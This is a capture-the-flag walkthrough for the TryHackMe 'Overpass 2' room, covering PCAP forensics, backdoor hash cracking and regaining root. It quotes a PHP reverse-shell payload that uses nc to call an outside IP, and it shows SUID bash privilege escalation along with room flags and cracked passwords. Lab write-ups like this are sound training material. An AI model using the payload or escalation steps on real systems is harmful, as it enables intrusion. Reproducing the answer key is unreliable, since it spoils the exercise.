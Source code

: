 # TryHackMe-Overpass 2

## Forensics-Analyse the PCAP

1. What was the URL of the page they used to upload a reverse shell?

<img src="https://imgur.com/KFBqeZb.png"/>

`development`


2. What payload did the attacker use to gain access?

  <img src="https://imgur.com/HkQQ5TT.png"/>

`<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`


3. What password did the attacker use to privesc?

 <img src="https://imgur.com/ybqgbuh.png"/>

Follow the tcp stream from packet `4` and change the stream until you see something interesting

	 `whenevernoteartinstant`

4. How did the attacker establish persistence?
	
   <img src="https://imgur.com/ocwiDNb.png"/>

  `https://github.com/NinjaJc01/ssh-backdoor`


5. Using the fasttrack wordlist, how many of the system passwords were crackable?

Store the hashes in a text file for cracking

 <img src="https://imgur.com/xZXW6Mx.png"/>

 <img src="https://imgur.com/8RRXeEj.png"/>

`4`

## Research-Analyse the code

1. What's the default hash for the backdoor?

Visit the github for the ssh-backdoor

<img src="https://imgur.com/g29RECF.png"/>

`bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`


2. What's the hardcoded salt for the backdoor?
<img src="https://imgur.com/vzO9sou.png"/>

You can find the `salt` being passed to `verifypass` function

`1c362db832f3f864c8c2fe05f2002a05`

3. What was the hash that the attacker used? - go back to the PCAP for this!
  <img src="https://imgur.com/axBHZVo.png"/>

 `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

4. Crack the hash using rockyou and a cracking tool of your choice. What's the password?

Since the hash is SHA512 we are going to use hashcat and for that we have to find the mode for that hash so we can specify it to crack

<img src="https://imgur.com/WTa7Gzj.png"/>

But doing this didn't help as this is salted so we know the default hash that this backdoor uses so add the default salt to the hash 

```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05
```
<img src="https://imgur.com/DVCgt3R.png"/>

<img src="https://imgur.com/8vCm4mr.png"/>

`november16`


## Attack-Get back in!

### NMAP

```
nmap -sC -sV 10.10.196.150
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-28 21:06 PKT
Stats: 0:00:28 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.75% done; ETC: 21:06 (0:00:00 remaining)
Stats: 0:00:28 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.75% done; ETC: 21:06 (0:00:00 remaining)
Nmap scan report for 10.10.196.150
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:3a:be:ed:ff:a7:02:d2:6a:d6:d0:bb:7f:38:5e:cb (RSA)
|   256 fc:6f:22:c2:13:4f:9c:62:4f:90:c9:3a:7e:77:d6:d4 (ECDSA)
|_  256 15:fd:40:0a:65:59:a9:b5:0e:57:1b:23:0a:96:63:05 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LOL Hacked
2222/tcp open  ssh     OpenSSH 8.2p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|_  2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.99 seconds
```

1. The attacker defaced the website. What message did they leave as a heading? 

<img src="https://imgur.com/drl11Rf.png"/>

`H4ck3d by CooctusClan`

 
2. What's the user flag?

Now there are two ports open for SSH 

<img src="https://imgur.com/qylGgeA.png"/>

Port 22 didn't work but port 2222 did as we saw from the nmap scan it is another ssh port

`thm{d119b4fa8c497ddb0525f7ad200e6567}`

3. What's the root flag?

The binary `.suid_bash` has SUID permissions that can execute has the owner of that file so with `./.suid_bash -p` this -p will allow to run as the permissions of that users


<img src="https://imgur.com/98tz8np.png"/>

`thm{d53b2684f169360bb9606c333873144d}`